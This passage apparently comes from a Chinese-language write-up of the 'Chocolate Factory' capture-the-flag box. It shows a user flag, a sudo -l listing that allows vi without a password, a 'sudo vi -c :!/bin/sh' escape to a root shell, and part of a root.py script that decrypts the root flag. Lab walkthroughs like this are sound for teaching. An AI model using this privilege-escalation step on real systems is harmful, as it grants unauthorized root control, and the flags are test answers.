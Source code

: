 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$ cat /home/charlie/user.txt 
flag{cd5509042371b34e4826e4838b522d2e}

```

查看sudo -l，发现可以无密码使用vi命令
```
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```


用```sudo vi -c ':!/bin/sh' /dev/null```提权到root
```
charlie@chocolate-factory:/$ sudo vi -c ':!/bin/sh' /dev/null

#  id
uid=0(root) gid=0(root) groups=0(root)
#  whoami
root
#  cat /root/root.txt
cat: /root/root.txt: No such file or directory

```

但是root flag藏在一个叫```root.py ```的文件里，源码如下
```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)